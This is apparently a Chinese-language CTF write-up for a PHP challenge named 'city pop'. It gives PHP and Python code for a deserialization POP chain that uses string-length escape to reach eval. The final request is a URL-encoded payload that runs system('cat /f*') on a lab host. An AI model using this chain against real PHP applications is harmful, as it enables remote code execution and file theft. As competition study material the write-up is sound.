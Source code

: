 # city pop
	- 思路：绕过GET参数会转换`.`的限制，传入序列化对象，并利用字符逃逸实例化任意对象，实现POP
	- 绕过GET参数
		- fuzz发现`ciscn[huaibei.pop`的`.`会保留，而方括号会变成下划线
	- POP
		- ```php
		  // Go::__destruct --> Get::__toString --> Get::__get --> Done::__invoke
		  
		  $done = new Done();
		  $done -> eval = "echo 114514;";
		  $get = new Get();
		  $get -> func = $done;
		  $get2 = new Get();
		  $get2 -> name = $get;
		  $go = new Go();
		  $go -> ray = $get2;
		  // $start = new Start("114514",serialize($go));
		  echo urlencode(serialize($go));
		  
		  ```
	- PHP序列化字符逃逸
		- 利用以下脚本构造对象
			- ```python
			  from utils.enc_dec import urlencode
			  
			  def human_readable(s):
			      s = s.replace(";", ";\n").replace("{", "{\n")
			      p = 0
			      while p < len(s):
			          s1 = s[p:]
			          if "s:" in s1:
			              num_start = s1.index("s:") + 2
			              num = s1[num_start:].split(":")[0]
			              # print(num)
			              num = int(num)
			              rm_start = p + num_start + len(str(num)) + 2
			              s = s[:rm_start] + s[rm_start:rm_start + num].replace("\n", "M") + s[rm_start + num:]
			              p = rm_start + num
			          else:
			              break
			  
			      s = s.replace("M", "")
			      l = s.split("\n")
			      indent = 0
			      for i in range(len(l)):
			          if "}" in l[i] and "s:" not in l[i]:
			              indent -= 1
			          l[i] = "    "*indent + l[i]
			          if "{" in l[i] and "s:" not in l[i]:
			              indent += 1
			      return "\n".join(l)
			  
			  eval_str = "var_dump(system('cat /f*'));"
			  
			  
			  start = "getflag" * 10
			  end = """           ";s:3:"end";
			  O:2:"Go":1:{s:3:"ray";O:3:"Get":2:{s:4:"func";N;s:4:"name";O:3:"Get":2:{s:4:"func";O:4:"Done":4:{s:4:"eval";s:LEN_EVAL:"EVAL";s:5:"class";N;s:3:"use";N;s:7:"useless";N;}s:4:"name";N;}}}
			  ;
			  """.replace("\n", "").replace("LEN_EVAL", str(len(eval_str))).replace("EVAL", eval_str)
			  s =  '''
			  O:5:"Start":2:{s:5:"start";s:LEN_START:"START";s:3:"end";s:LEN_END:"END";}
			  '''.replace("LEN_START", str(len(start))).replace("START", start).replace("LEN_END", str(len(end))).replace("END", end)
			  print(start)
			  print(urlencode(end))
			  print(human_readable(s))
			  
			  s = s.replace("getflag", "hark")
			  
			  print(human_readable(s))
			  # 执行watch python helper.py即可自动每秒运行一次脚本，实时预览脚本运行结果
			  ```
	- 最终payload如下
		- ```http
		  GET /pop.php?ciscn[huaibei.pop=getflaggetflaggetflaggetflaggetflaggetflaggetflaggetflaggetflaggetflag&pop=%20%20%20%20%20%20%20%20%20%20%20%22%3Bs%3A3%3A%22end%22%3BO%3A2%3A%22Go%22%3A1%3A%7Bs%3A3%3A%22ray%22%3BO%3A3%3A%22Get%22%3A2%3A%7Bs%3A4%3A%22func%22%3BN%3Bs%3A4%3A%22name%22%3BO%3A3%3A%22Get%22%3A2%3A%7Bs%3A4%3A%22func%22%3BO%3A4%3A%22Done%22%3A4%3A%7Bs%3A4%3A%22eval%22%3Bs%3A28%3A%22var_dump%28system%28%27cat%20/f%2A%27%29%29%3B%22%3Bs%3A5%3A%22class%22%3BN%3Bs%3A3%3A%22use%22%3BN%3Bs%3A7%3A%22useless%22%3BN%3B%7Ds%3A4%3A%22name%22%3BN%3B%7D%7D%7D%3B HTTP/1.1
		  Host: 172.1.35.1
		  Upgrade-Insecure-Requests: 1
		  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
		  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
		  Accept-Encoding: gzip, deflate
		  Accept-Language: zh-CN,zh;q=0.9
		  Connection: close
		  
		  
		  ```